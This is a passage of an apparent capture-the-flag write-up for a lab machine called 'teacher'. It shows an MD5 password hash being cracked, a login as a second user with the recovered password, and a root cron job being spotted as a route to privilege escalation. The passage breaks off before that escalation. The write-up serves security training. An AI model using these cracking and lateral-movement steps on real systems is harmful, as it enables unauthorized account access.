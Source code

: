 ```
+------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+
4 rows in set (0.00 sec)
```

The `Giovannibak` account hash the `7a860966115182402ed06375cf0a22af` MD5 hash, which is `expelled` if we look it up on [https://hashkiller.co.uk/md5-decrypter.aspx](https://hashkiller.co.uk/md5-decrypter.aspx).

```
www-data@teacher:/$ su -l giovanni
Password: expelled

giovanni@teacher:~$ cat user.txt
cat user.txt
fa9ae...
```

### Priv esc

The `/home/giovanni/work` directory contains a bunch of files, but the `backup_courses.tar.gz` timestamp keep changing every minute so we can assume the file is being created by a cron job running as root:

```
giovanni@teacher:~/work$ ls -lR
ls -lR
.:
total 8
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27 04:58 courses
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27 04:34 tmp

./courses:
total 4
drwxr-xr-x 2 root root 4096 Jun 27 04:15 algebra

./courses/algebra:
total 4
-rw-r--r-- 1 giovanni giovanni 109 Jun 27 04:12 answersAlgebra

./tmp:
total 8
-rwxrwxrwx 1 root root  256 Dec  2 03:52 backup_courses.tar.gz
drwxrwxrwx 3 root root 4096 Jun 27 04:58 courses

./tmp/courses:
total 4
drwxrwxrwx 2 root root 4096 Jun 27 04:15 algebra

./tmp/courses/algebra:
total 4
-rwxrwxrwx 1 giovanni giovanni 109 Jun 27 04:12 answersAlgebra

giovanni@teacher:~/work$ date
Sun Dec  2 03:52:38 CET 2018
```
